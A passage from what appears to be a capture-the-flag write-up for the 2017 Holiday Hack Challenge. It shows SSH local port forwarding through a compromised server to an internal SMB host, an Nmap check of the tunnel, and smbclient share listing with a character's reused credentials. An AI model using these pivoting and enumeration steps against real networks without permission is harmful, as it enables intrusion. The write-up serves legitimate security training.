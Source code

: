 To do so, we will have to do some port forwarding via SSH - this will allow us to directly access the SMB Server from our Kali Machine by using our SSH access to the Letters to Santa server.

Holly actually provides us a good hint on [SSH Port Forwarding](https://help.ubuntu.com/community/SSH/OpenSSH/PortForwarding).

<a href="https://jhalon.github.io/images/shh22.png"><img src="https://jhalon.github.io/images/shh22.png"></a>

Alright, so let's go ahead and forward TCP/445 to the SMB Server via the following command.

```console
root@kali:~/HH# ssh -L 445:10.142.0.7:445 alabaster_snowball@35.190.140.65
alabaster_snowball@35.190.140.65's password: 
alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.Tkb7IbWTBHKIajNrcEe9uzJr$ 
```

Once that's done, let’s verify if we indeed have a valid tunnel via SMB by running an Nmap scan against our localhost and TCP/445.

```console
root@kali:~# nmap -sV -p 445 localhost

Starting Nmap 7.60 ( https://nmap.org ) at 2017-12-28 16:57 CST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000058s latency).
Other addresses for localhost (not scanned): ::1

PORT    STATE SERVICE      VERSION
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OS: Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.86 seconds
```

The SSH tunnel works, and we have successfully forwarded our SMB port to the Internal Christmas Town SMB file-share server.

From here, we can run `smbclient` against our localhost while utilizing Alabaster's username and password to list all the share's on the server.

```console
root@kali:~# smbclient -L localhost -U alabaster_snowball
WARNING: The "syslog" option is deprecated
Enter alabaster_snowball's password: 
Domain=[HHC17-EMI] OS=[Windows Server 2016 Datacenter 14393] Server=[Windows Server 2016 Datacenter 6.3]

       Sharename       Type      Comment
       ---------       ----      -------
       ADMIN$          Disk      Remote Admin
       C$              Disk      Default share
       FileStor        Disk      
       IPC$            IPC       Remote IPC
Connection to localhost failed (Error NT_STATUS_CONNECTION_REFUSED)
NetBIOS over TCP disabled -- no workgroup available
```
